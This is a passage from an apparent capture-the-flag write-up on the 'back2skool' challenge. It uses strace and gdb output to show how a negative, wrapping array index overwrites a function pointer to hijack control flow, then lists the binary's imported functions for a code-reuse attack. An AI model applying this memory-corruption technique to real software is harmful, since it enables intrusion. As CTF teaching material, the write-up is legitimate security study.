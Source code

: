 Meanwhile, back at the castle.

	$ strace -f ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
	[...]
	[pid  4710] recv(4, "\n", 1, 0)         = 1
	[pid  4710] send(4, "Value at position -2147483634: 2"..., 41, 0) = 41
	[pid  4710] read(4, "m", 1)             = 1
	[pid  4710] read(4, "a", 1)             = 1
	[pid  4710] read(4, "t", 1)             = 1
	[pid  4710] read(4, "h", 1)             = 1
	[pid  4710] read(4, "\r", 1)            = 1
	[pid  4710] read(4, "\n", 1)            = 1
	[pid  4710] --- SIGSEGV (Segmentation fault) @ 0 (0) ---
	Process 4710 detached
	$

OK, we've got our segmentation fault. Let's see what was the last instruction pointer.

	$ gdb ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f /home/back2skool/core 
	[...]
	Core was generated by `./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f'.
	Program terminated with signal 11, Segmentation fault.
	#0  0x11111111 in ?? ()
	(gdb) 

Neat! But what are those numbers? We wrote at position **-2147483634** value
**286331153**. The second number is the instruction pointer at which we want
to jump with the `math` function. The first number is computed as follows

* the base of our buffer (values) is at a fixed address 0x804c040
* the address at which we want to write is 0x804c078
* we need to write at position values+0x38
* giving a positive index (0x38/4) will give an upper bound error
* the negative index is -(2^31 - (0x38/4)) == **-2147483634**
* you can test this by computing 2^33 + 0x804c040-4\*(2^31 - (0x38/4)) -
  because of the way the buffer is addressed (4 bytes values, [scaled
  addressing](http://en.wikipedia.org/wiki/Addressing_mode#Scaled)) the
  overflow is ignored and the index value *wraps* around. We need to do *wrap*
  around only when we try to access a value above the base address of the
  vector.

The instruction pointer is the value that we wrote, 0x11111111 in decimal is
**286331153**, so we've managed to modify the flow of the program by doing a
write, and we've managed to do so in a predictable way.

##Second PoC

We are in the following state: we've managed to make our program to jump at
any location. But **where** to jump? Because we don't have any possibility of
injecting code, we should rely on the available code. Available code means,
our code and the dynamic libraries code which are mapped in our address space.

Let's inspect again our binary to see what is used from shared libraries.

	$ nm -D -u ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f 
	         w __gmon_start__
	         U __libc_start_main U __stack_chk_fail U accept U atoi U bind
	         U chdir U close U err U exit U fork U free U getpwnam U htonl
	         U htons U listen U perror U read U recv U send U setgid
	         U setgroups U setsockopt U setuid U signal U socket U vasprintf
	$ 


[original binary]: res/back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f "Vulnerable binary"
[Ghost in the Shellcode]: http://ghostintheshellcode.com/ "Ghost in the Shellcode CTF"